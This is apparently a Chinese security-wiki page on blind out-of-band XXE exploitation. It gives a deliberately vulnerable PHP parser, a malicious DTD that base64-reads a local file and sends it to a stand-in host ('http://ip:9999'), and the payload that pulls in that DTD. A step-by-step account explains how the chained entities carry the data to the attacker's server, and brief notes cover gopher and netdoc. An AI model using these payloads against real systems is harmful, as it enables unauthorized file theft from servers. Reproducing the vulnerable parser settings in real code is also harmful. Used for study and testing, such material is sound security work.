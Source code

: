 ### Blind XXE 利用

示例无回显读取本地敏感文件（Blind OOB XXE）：

此部分演示借用php中XXE进行说明

xml.php

```php
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>

```

test.dtd

```bash
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">

```

payload:

```bash
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>

```

![2.png](images/security_wiki/2a1a831dcf134f44b8a1cc3c90fd0761.png)

结果如下：

![3.png](images/security_wiki/b7f88c0930d646ef9502922f6e118f40.png)

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

**新的利用**

如图所示

![4.png](images/security_wiki/0c202285a0f8423cba1a9e09c5c49edf.png)

**注意：**

1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7 update 7 和 Oracle JDK 1.6 update 35 2.libxml 是 PHP 的 xml 支持

**netdoc协议**

| Java中在过滤了file | ftp | gopher | 情况下使用netdoc 协议列目录： |

| --- | --- | --- | --- |

|  |  |  |  |

附上一张图

![5.png](images/security_wiki/81c9e141484a4b03b10d48a1dc060c6d.png)

另外对于带外XXE还可以通过burp 进行测试如（附上两张图）：

![6.png](images/security_wiki/06d67ae98d9a493e845de3eb88b2f188.png)
![7.png](images/security_wiki/28f2eef07b004ae88c451d8c7abc42a8.png)

